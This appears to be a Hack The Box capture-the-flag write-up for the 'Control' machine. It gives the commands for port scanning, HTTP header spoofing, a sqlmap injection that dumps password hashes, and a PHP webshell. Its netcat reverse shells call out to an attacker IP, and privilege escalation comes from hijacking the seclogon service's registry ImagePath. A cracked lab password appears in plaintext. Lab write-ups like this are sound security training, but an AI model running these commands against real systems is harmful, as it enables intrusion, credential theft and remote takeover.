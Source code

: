 # [Control](https://app.hackthebox.com/machines/control)

```bash
nmap -p- --min-rate 10000 10.10.10.167 -Pn 
```

![Alt text](img/image.png)


After detection of open ports (80,135,3306), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,135,3306 10.10.10.167 -Pn
```

![Alt text](img/image-1.png)


While we open web application, goes into '**admin**' page, it doesn't show. It says that it is allowed from internal network.

That's why, we need to check HTTP request headers that maybe we can masqueared ourselves as coming from internal network.

Let's fuzz HTTP request headers.

```bash
wfuzz -c -w headers -u http://10.10.10.167/admin.php -H "FUZZ: 192.168.4.28" --hh 89
```

![Alt text](img/image-3.png)

Also, I need to write ip address due to below thing (source code comment)

![Alt text](img/image-2.png)


Then, I found a [tool](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/) which adds automatically to each request on web application 

![Alt text](img/image-4.png)



For this method, let's do SQL injection (searching products).

![Alt text](img/image-5.png)

I saved the below one as .req file to use via `sqlmap` tool.

![Alt text](img/image-6.png)

![Alt text](img/image-7.png)


I also dumped the passwords of users for Mysql database.

```bash
sqlmap -H "X-Forwarded-For: 192.168.4.28" --random-agent --passwords -r post.req 
```

![Alt text](img/image-8.png)


I cracked this passwords via [Crackstation](https://crackstation.net/)

![Alt text](img/image-9.png)


Now, I grab the payload and replace this via my webshell as below.

![Alt text](img/image-10.png)


I browse the page which I add my webshell '/uploads/dr4ks.php'.

![Alt text](img/image-11.png)


Now, it's time to add `nc` binary into machine, then get reverse shell.

1.First, let's open http server and serve `nc` binary here.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```

![Alt text](img/image-12.png)

2.Then, make a `curl` request into webshell to download script.
```bash
curl '10.10.10.167/uploads/dr4ks.php?cmd=powershell+wget+http://10.10.16.6:8080/nc.exe+-outfile+\windows\temp\nc.exe'
```

![Alt text](img/image-13.png)


Now, it's time to add reverse shell command into webshell.

```bash
curl '10.10.10.167/uploads/dr4ks.php?cmd=\windows\temp\nc.exe+-e+cmd+10.10.16.6+1337'
```

![Alt text](img/image-14.png)


I got reverse shell from port (1337).

![Alt text](img/image-15.png)


I found a password of 'hector' user from SQL Injection.

hector: l33th4x0rhector


Let's use this credentials to become 'hector' user.

```bash
$username = "CONTROL\hector"
$password = "l33th4x0rhector"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

![Alt text](img/image-16.png)


Let's test that our injected credentials worked or not.

```bash
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
```

![Alt text](img/image-17.png)

Hola worked, let's add reverse shell into here.


1.First, we copy `nc` binary into somewhere on the machine via `wget` command
```bash
wget 10.10.16.6:8080/nc.exe -outfile \windows\system32\spool\drivers\color\nc.exe
```

![Alt text](img/image-18.png)

2.Let's add our reverse shell into command section.
```bash
Invoke-Command -credential $cred -ScriptBlock { \windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.16.6 1338 } -computer localhost
```

![Alt text](img/image-19.png)


I got reverse shell from port (1338).

![Alt text](img/image-20.png)


user.txt

![Alt text](img/image-21.png)


I searched insecure `ACLs(Access Control List)` via `accesschk.exe` tool.

![Alt text](img/image-22.png)


Let's control services which we have **Write permission** or not.

```bash
accesschk.exe "Hector" -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services
```

![Alt text](img/image-23.png)

I grab `seclogon` service from here.

![Alt text](img/image-24.png)


Let's add our reverse shell cmdlet via `reg add` command.

```bash
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.6 2024 -e cmd.exe" /f
```

![Alt text](img/image-25.png)

Then start the `seclogon` service to configs are located into their places.

```bash
sc start seclogon
```

![Alt text](img/image-26.png)


I got reverse shell from port (2024)..

![Alt text](img/image-27.png)


root.txt

![Alt text](img/image-29.png)